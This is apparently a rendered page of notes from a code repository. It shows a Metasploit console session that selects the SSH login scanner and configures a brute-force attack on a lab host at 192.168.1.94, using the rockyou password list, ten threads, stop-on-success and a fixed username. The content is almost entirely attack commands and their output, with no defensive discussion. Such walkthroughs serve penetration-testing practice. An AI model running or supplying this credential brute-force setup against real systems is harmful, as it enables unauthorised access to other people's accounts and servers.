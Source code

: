 ```
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v5.0.75-dev-                         ]
+ -- --=[ 1969 exploits - 1087 auxiliary - 338 post       ]
+ -- --=[ 558 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]
```


```
$ msf5 > search ssh

Matching Modules
================

   #   Name                                                        Disclosure Date  Rank       Check  Description
   -   ----                                                        ---------------  ----       -----  -----------
   18  auxiliary/scanner/ssh/ssh_login                                              normal     Yes    SSH Login Check Scanner

msf5 > use 18

msf5 auxiliary(scanner/ssh/ssh_login) > show options


Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/password/rockyou.txt
PASS_FILE => /usr/share/wordlists/password/rockyou.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.1.94
RHOSTS => 192.168.1.94
msf5 auxiliary(scanner/ssh/ssh_login) > set THREADS 10
THREADS => 10
msf5 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf5 auxiliary(scanner/ssh/ssh_login) > set username noraj
username => noraj
```

[^1]: kali linux [www.offensive-security.com](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)